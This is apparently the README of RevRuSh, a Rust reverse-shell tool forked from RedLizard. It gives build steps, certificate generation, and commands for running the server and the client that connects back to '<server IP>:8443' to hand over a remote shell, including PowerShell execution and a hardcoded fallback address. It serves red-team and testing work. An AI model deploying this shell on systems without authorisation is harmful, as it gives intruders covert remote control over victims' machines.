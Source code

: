# RevRuSh - A sample reverse shell in Rust
## Based on https://github.com/trickster0/RedLizard


![Redlizard](screen.png)

### Note
Since the original project, RedLizard, is not mantained anymore I decided to create a new indipendent project.

Many thanx to [trickster0](https://github.com/trickster0) 

### Changes from the original project:
- Use native_tls instead of openssl, since openssl on windows it's a pain
- Client run both on windows and linux
- Client on linux execute command through bash
- The certificate (and the private key) is now embedded into the server as PFX file
- The client accept the server IP and port as parameter
- Adjusted the code to suppress warning
- Optimized command management: now you can pass parameter, e.g. ip a, ipconfig /all


### Requirements:
- rustc & cargo >= 1.73.0
- on linux: OpenSSL 3.0.11 with libssl-dev installed
- pfx file must reside on src folder of the server
### Advises
- better run server on linux

### Prepare the server
    cd RevRuSh/server
    openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout my.key -out my.crt && \
    openssl pkcs12 -export -out revrush.pfx -inkey my.key -in my.crt && \
    mv revrush.pfx src

    cargo b --release
    
### Run the server
Pass the certificate password and the port. The server will listen to all the available IP4 interfaces:
```
target/release/revrush_server Zinz01 8443
```

### Prepare the client
    cd RevRuSh-main\client>
    cargo b --release
    
### Run the client
Pass the server:port as argument.
```
target\release\revrush_client.exe <server IP>:8443
```
If you want to run powershell command you can execute:
         
    ~$: powershell -c get-help

#### Hardcoded configuration on the client
If you cannot pass the server:port parameter to the client consider to change the following in client main file (around line 23):
```rust
 "127.0.0.1:4443".to_owned()
```
#### Known issues
Don't send empty command to the client, just hitting return, since the server will loose the shell, not the connection. The reuslt will be a hanging session.


